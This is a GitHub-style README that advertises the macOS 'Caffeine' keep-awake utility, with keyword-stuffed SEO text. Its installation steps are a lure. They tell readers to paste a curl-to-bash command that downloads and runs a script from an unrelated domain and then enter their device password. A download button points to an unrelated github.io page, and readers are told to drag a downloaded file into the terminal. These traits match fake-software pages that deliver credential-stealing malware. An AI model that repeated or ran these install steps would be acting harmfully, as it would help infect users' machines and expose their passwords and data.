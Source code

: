 <p align="center">
  <img src="https://www.caffeine-app.net/images/sequoia/caffeine-2x.png" alt="Caffeine Mac" width="200"/>
</p>

<h1 align="center">☕ Caffeine Mac Utility</h1>

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/90" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CAFFEINE%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Button">
  </a>
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 Slogan

Keep your Mac awake with a single click. Lightweight, effective, and tailored for productivity without interruptions.

---

📌 About Caffeine for macOS
Caffeine for Mac is a lightweight utility designed to keep your Mac awake and prevent it from going into sleep mode, dimming the screen, or activating the screensaver. Sitting quietly in your menu bar, Caffeine provides a simple toggle that ensures your display stays on when needed — whether you're watching a video, giving a presentation, running long processes, or reading something important without touching your keyboard or mouse.

With no clutter or complex settings, Caffeine is the go-to tool for professionals, developers, students, and power users who need full control over their Mac’s power behavior. It’s minimal, intuitive, and extremely effective at one job — keeping your Mac alert on your terms.

Caffeine is compatible with both Intel and Apple Silicon (M1, M2, M3) Macs and works seamlessly across macOS versions. Whether you're using a MacBook Pro, MacBook Air, iMac, or Mac mini, Caffeine keeps you in charge of your screen activity with a single click.

---

## 🧩 Key Features

- ✅ One-click activation and deactivation  
- ✅ Resides in menu bar — no clutter  
- ✅ Works on Apple Silicon and Intel Macs  
- ✅ No configuration needed  
- ✅ Prevents sleep and screen dimming  

---

## 🖥️ System Requirements

- **macOS Versions:** 13, 14, 15  
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **RAM:** Minimum 4 GB  

---

<p align="center">
  <img src="https://media.idownloadblog.com/wp-content/uploads/2016/02/Screen-Shot-2016-02-16-at-1.19.18-AM.png" alt="Menu Bar Icon Preview" width="600"/>
  <br><br>
  <img src="https://caffeinated.app/wp-content/uploads/2023/02/asset-new-1.png" alt="Caffeine Preferences Preview" width="600"/>
</p>

---

## 📢 Note

Caffeine Mac runs silently and efficiently in the background. Toggle it off when not needed to resume normal power-saving behavior.

---

## 🔍 Keywords

Caffeine, Caffeine Mac, Caffeine for Mac, Caffeine Mac download, download Caffeine for Mac, Caffeine app Mac, Caffeine utility Mac, install Caffeine Mac, Caffeine Mac free, Caffeine latest version Mac, Caffeine MacBook, Caffeine for MacBook Pro, Caffeine for MacBook Air, Caffeine M1 Mac, Caffeine M2 Mac, Caffeine M3 Mac, Caffeine for Apple Silicon, Caffeine for Intel Mac, Caffeine dmg Mac, Caffeine direct download Mac, Caffeine .dmg file Mac, Caffeine Mac tool, Caffeine menu bar Mac, Caffeine keep awake Mac, Caffeine screen awake Mac, Caffeine no sleep Mac, Mac Caffeine installer, get Caffeine on Mac, Caffeine app download Mac, Mac sleep prevent tool, Caffeine app for macOS, Mac Caffeine activation tool, Mac keep display on tool, Mac app to prevent sleep, download Caffeine utility Mac, Caffeine macOS setup, Caffeine bar tool Mac, Caffeine system tray Mac



